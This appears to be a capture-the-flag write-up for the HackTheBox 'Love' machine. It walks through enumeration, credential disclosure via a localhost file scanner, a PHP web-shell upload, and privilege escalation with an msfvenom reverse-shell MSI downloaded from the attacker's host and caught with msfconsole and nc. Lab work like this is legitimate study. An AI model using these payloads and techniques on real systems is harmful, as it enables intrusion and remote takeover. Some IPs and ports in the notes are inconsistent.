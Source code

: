 # Love

IP: ## 10.10.10.239

````bash
echo "10.129.128.17 love.htb" >> /etc/hosts 
````

## nmap
|Port|service|
|---|---|
|80|http|
|135|msrpc|
|139|netbios-ssn|
|443|https|
|445|smb|
|3306|mysql|
|5000|upnp|

Lets start with the website. 
we can see it a voting website using php.
like try do some enumlation on the site. 

````bash
gobuster dir -u http://love.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
````

We find */admin* which ask for creds we do not have yet.

lets try the other ports
on port 443 we get access forbidden. 

looking at the cert of the https site we see a subdomain 
staging.love.htb and username roy@love.htb.
So we add the the domin to /etc/hosts. 
I try with https but still got forbidden, but on http we get a file scanner. 
Lets see if we can 
I tried scanning itself just for fun as it was forbidden to us.  
http://127.0.0.1:5000

creds: 
Vote Admin Creds 
admin: @LoveIsInTheAir!!!! 

Let try login with the cred on love.htb/admin and we got access. 
I can see under user setting we have a the options to upload a file as our images, lets see if it can be exploited.
At the buttom we see it created by sourcecodester.com and the system is called voting-system-using-php.html time to google for exploit. 

https://www.exploit-db.com/exploits/49445
But sadly the exploit did not work :C 
Guess we have to do it the manual way. 

I tried my go to reverse shell by pentestmonkey, but did not work
I got hinted at using:
[shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/minified/simple_php_web_shell_get__mini_v2.php)

we got access as user, get the flag and lets try get admin

## admin 
Scan the system with WinPEAS and we learn that AlwaysInstalledElevated feature is used to install MSI packages, lets create a shell with msfvenom and get admin. 

````bash
msfvenom -p windows/x64/meterpreter/reverse\_tcp LHOST=10.10.14.200 LPORT=8856 -f msi -o "trustme.msi"
````

Now open msfconsole to catch the rev shell.

````bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/shell_reverse_tcp
set lhost 10.10.14.200
set lport 8765
````

Upgrade to powershell and download the file 
````powershell
Powershell.exe
Invoke-WebRequest -URI http://10.10.14.200:8000/trustme.msi -OutFile trustme.msi
````
and still just user.. 

````bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.200 LPORT=8856 -f msi -o "trustme.msi"
````

On another machine 
````bash
nc -lvnp 8856
````
and I got root. 

Hash -> aab42ca009fed69fa5ee57c52cf5bcf1

[writeup](https://hackingwebservice.wordpress.com/2021/05/02/htb-hackthebox-love-writeup/)
[https://0xdedinfosec.github.io/posts/htb-love/](https://raidforums.com/misc.php?action=safelinks&url=https%3A%2F%2F0xdedinfosec.github.io%2Fposts%2Fhtb-love%2F)